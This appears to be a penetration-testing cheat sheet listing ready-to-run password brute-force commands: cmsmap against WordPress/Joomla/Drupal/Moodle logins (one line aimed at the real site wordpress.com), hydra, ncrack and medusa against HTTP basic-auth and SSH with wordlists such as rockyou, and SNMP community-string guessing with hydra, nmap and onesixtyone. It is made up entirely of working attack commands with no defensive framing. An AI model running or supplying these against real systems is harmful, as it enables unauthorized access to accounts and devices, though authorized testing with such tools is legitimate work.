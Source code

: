 ### HTTP - CMS -- (W)ordpress, (J)oomla or (D)rupal or (M)oodle

```
cmsmap -f W/J/D/M -u a -p a https://wordpress.com
```

### Hydra attack http get 401 login with a dictionary

```
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin
```

## SSH

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -o results.txt ssh://$ip
```

```
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh
```

```
hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh
```

```
hydra -l root -P wordlist.txt $ip ssh
```

```
hydra -L userlist.txt -P best1050.txt $ip -s 22 ssh -V
```

```
hydra -l root -P passwords.txt [-t 32] <IP> ssh
```

```
ncrack -p 22 --user root -P passwords.txt <IP> [-T 5]
```

```
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ssh
```

## SNMP

```
hydra -P wordlist.txt -v $ip snmp
```

```
nmap -sU --script snmp-brute <target> [--script-args snmp-brute.communitiesdb=<wordlist> ]
```

```
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp_onesixtyone.txt <IP>
```
